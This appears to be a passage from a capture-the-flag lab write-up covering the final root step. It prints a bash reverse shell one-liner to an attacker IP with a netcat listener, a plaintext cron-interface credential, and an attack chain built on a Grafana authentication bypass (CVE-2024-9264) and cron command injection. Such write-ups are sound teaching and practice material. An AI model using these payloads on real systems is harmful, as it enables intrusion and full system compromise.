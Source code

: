 **Cron Management Interface:**
- URL: `http://localhost:8000`
- Credentials: `root:P4ssw0rdS0pRi0T3c`

### 9. Root Shell via Command Injection

**Attack:** Add malicious cron job through web interface

```bash
# Reverse shell payload
bash -c 'exec bash -i &>/dev/tcp/10.10.16.62/4545<&1'
```

**Steps:**
1. Start netcat listener: `nc -lnvp 4545`
2. Access cron management interface at `http://localhost:8000`
3. Login with `root:P4ssw0rdS0pRi0T3c`
4. Create new cron job with reverse shell payload
5. Set schedule to run immediately

```bash
# Received root shell
nc -lnvp 4545
```

🚩 **Root Flag:** Located in `/root/root.txt`

## Attack Summary

```
admin (initial creds)
    ↓ CVE-2024-9264 (Grafana Auth Bypass)
Grafana Admin Access
    ↓ Environment Variable Extraction
enzo (SSH Access)
    ↓ Cron Database Discovery
Cron Management Interface
    ↓ Command Injection
root (Full System Compromise)
```

## Key Techniques Used

1. **Subdomain Enumeration** - DNS fuzzing to discover Grafana
2. **CVE Exploitation** - Grafana authentication bypass
3. **Environment Variable Harvesting** - Container credential extraction
4. **Privilege Escalation** - Cron job manipulation
5. **Port Forwarding** - SSH tunneling for internal service access
6. **Command Injection** - Malicious cron job creation

## Vulnerabilities Exploited

- **CVE-2024-9264** - Grafana Authentication Bypass
- **Insecure Credential Storage** - Environment variables in container
- **Weak Access Controls** - Cron management interface
- **Command Injection** - Unsanitized input in cron job creation
